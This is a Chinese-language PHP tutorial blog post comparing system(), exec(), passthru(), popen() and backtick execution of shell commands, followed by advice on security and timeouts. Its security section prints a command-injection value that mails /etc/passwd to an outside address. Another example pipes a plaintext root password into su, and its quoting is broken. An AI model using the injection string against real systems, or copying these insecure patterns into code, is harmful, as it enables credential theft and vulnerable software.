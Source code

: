 #+TITLE: PHP中三个调用系统命令的函数system(),exec(),passthru()比较
#+AUTHOR: Gu Weigang
#+EMAIL: guweigang@outlook.com
#+DATE: 2010-08-11 Wed
#+URI: /blog/2010/08/11/three-system-call-functions-comparision-in-php---system-exec-passthru/
#+KEYWORDS: 
#+TAGS: exec, passthru, system
#+LANGUAGE: zh_CN
#+OPTIONS: H:3 num:nil toc:nil \n:nil ::t |:t ^:nil -:nil f:t *:t <:t
#+DESCRIPTION: 

我们知道*php*给我们提供了*[[http://www.phpe.net/manual/function.system.php][system]]()*，*[[http://www.phpe.net/manual/function.exec.php][exec]]()*，*[[http://www.phpe.net/manual/function.passthru.php][passthru]]()*这三个函数来调用外部的命令.
虽然*这三个命令都能执行linux系统的shell命令，*但是其实他们是有区别的：
*[[http://www.phpe.net/manual/function.system.php][system]]()* 输出并返回最后一行shell结果。
*[[http://www.phpe.net/manual/function.exec.php][exec]]()* 不输出结果，返回最后一行shell结果，所有结果可以保存到一个返回的数组里面。
*[[http://www.phpe.net/manual/function.passthru.php][passthru]]()* 只调用命令，把命令的运行结果原样地直接输出到标准输出设备上。
相同点：都可以获得命令执行的状态码



在PHP中调用外部命令，可以用如下三种方法来实现：
1） 用PHP提供的专门函数
PHP提供共了3个专门的执行外部命令的函数：*[[http://www.phpe.net/manual/function.system.php][system]]*()，*[[http://www.phpe.net/manual/function.exec.php][exec]]*()，passthru()。

*[[http://www.phpe.net/manual/function.system.php][system]]*()
原型：string *[[http://www.phpe.net/manual/function.system.php][system]]* (string command [, int return\_var])
*[[http://www.phpe.net/manual/function.system.php][system]]*()函数很其它语言中的差不多，它执行给定的命令，输出和返回结果。第二个参数是可选的，用来得到命令执行后的状态码。
例子：
*[[http://www.phpe.net/manual/function.system.php][system]]*("/usr/local/bin/webalizer/webalizer");

*[[http://www.phpe.net/manual/function.exec.php][exec]]*()
原型：string *[[http://www.phpe.net/manual/function.exec.php][exec]]*(string command [, string array [, int return\_var]])
*[[http://www.phpe.net/manual/function.exec.php][exec]]*()函数与*[[http://www.phpe.net/manual/function.system.php][system]]*() 类似，也执行给定的命令，但不输出结果，而是返回结果的最后一行。虽然它只返回命令结果的最后一行，但用第二个参数array 可以得到完整的结果，方法是把结果逐行追加到array的结尾处。所以如果array不是空的，在调用之前最好用unset()最它清掉。只有指定了第二 个参数时，才可以用第三个参数，用来取得命令执行的状态码。
例子：
*[[http://www.phpe.net/manual/function.exec.php][exec]]*("/bin/ls -l");
*[[http://www.phpe.net/manual/function.exec.php][exec]]*("/bin/ls -l", $res);
*[[http://www.phpe.net/manual/function.exec.php][exec]]*("/bin/ls -l", $res, $rc);

passthru()
原型：void passthru (string command [, int return\_var])
passthru ()只调用命令，不返回任何结果，但把命令的运行结果原样地直接输出到标准输出设备上。所以passthru()函数经常用来调用象pbmplus （Unix下的一个处理图片的工具，输出二进制的原始图片的流）这样的程序。同样它也可以得到命令执行的状态码。
例子：
header("Content-type: image/gif");
passthru("./ppmtogif hunte.ppm");

2） 用popen()函数打开进程
上面的方法只能简单地执行命令，却不能与命令交互。但有些时候必须向命令输入一些东西，如在增加Linux的系统用户时，要调用su来把当前用户换到root才行，而su命令必须要在命令行上输入root的密码。这种情况下，用上面提到的方法显然是不行的。
popen ()函数打开一个进程管道来执行给定的命令，返回一个文件句柄。既然返回的是一个文件句柄，那么就可以对它读和写了。在PHP3中，对这种句柄只能做单一 的操作模式，要么写，要么读；从PHP4开始，可以同时读和写了。除非这个句柄是以一种模式（读或写）打开的，否则必须调用pclose()函数来关闭 它。
例子1：
$fp=popen("/bin/ls -l", "r");

例子2
/* PHP中如何增加一个系统用户
下面是一段例程，增加一个名字为james的用户,
root密码是 verygood。仅供参考
*/
$sucommand = "su --login root --command";
$useradd = "useradd ";
$rootpasswd = "verygood";
$user = "james";
$user\_add = sprintf("%s "%s %s"",$sucommand,$useradd,$user);
$fp = @popen($user\_add,"w");
@fputs($fp,$rootpasswd);
@pclose($fp);
?>
3） 用反撇号（`，也就是键盘上ESC键下面的那个，和~在同一个上面）
这个方法以前没有归入PHP的文档，是作为一个秘技存在的。方法很简单，用两个反撇号把要执行的命令括起来作为一个表达式，这个表达式的值就是命令执行的结果。如：
$res='/bin/ls -l';
echo '
'.$res.'
';

这个脚本的输出就象：
hunte.gif
hunte.ppm
jpg.htm
jpg.jpg
passthru.php
要考虑些什么？
要考虑两个问题：安全性和超时。
先 看安全性。比如，你有一家小型的网上商店，所以可以出售的产品列表放在一个文件中。你编写了一个有表单的HTML文件，让你的用户输入他们的EMAIL地 址，然后把这个产品列表发给他们。假设你没有使用PHP的mail()函数（或者从未听说过），你就调用Linux/Unix系统的mail程序来发送这 个文件。程序就象这样：
*[[http://www.phpe.net/manual/function.system.php][system]]*("mail $to < products.txt");
echo "我们的产品目录已经发送到你的信箱：$to";

用这段代码，一般的用户不会产生什么危险，但实际上存在着非常大的安全漏洞。如果有个恶意的用户输入了这样一个EMAIL地址：
'--bla ; mail someone@domain.com < /etc/passwd ;'
那么这条命令最终变成：
'mail --bla ; mail someone@domain.com < /etc/passwd ; < products.txt'
我相信，无论哪个网络管理人员见到这样的命令，都会吓出一身冷汗来。
幸 好，PHP为我们提供了两个函数：EscapeShellCmd()和EscapeShellArg()。函数EscapeShellCmd把一个字符串 中所有可能瞒过Shell而去执行另外一个命令的字符转义。这些字符在Shell中是有特殊含义的，象分号（），重定向（>）和从文件读入 （<）等。函数EscapeShellArg是用来处理命令的参数的。它在给定的字符串两边加上单引号，并把字符串中的单引号转义，这样这个字符串 就可以安全地作为命令的参数。
再来看看超时问题。如果要执行的命令要花费很长的时间，那么应该把这个命令放到系统的后台去运 行。但在默认情况下，象system()等函数要等到这个命令运行完才返回（实际上是要等命令的输出结果），这肯定会引起PHP脚本的超时。解决的办法是 把命令的输出重定向到另外一个文件或流中，如：
system("/usr/local/bin/order\_proc > /tmp/null &");

转载自[[http://www.zouqingshui.net/][清水的百宝箱]]


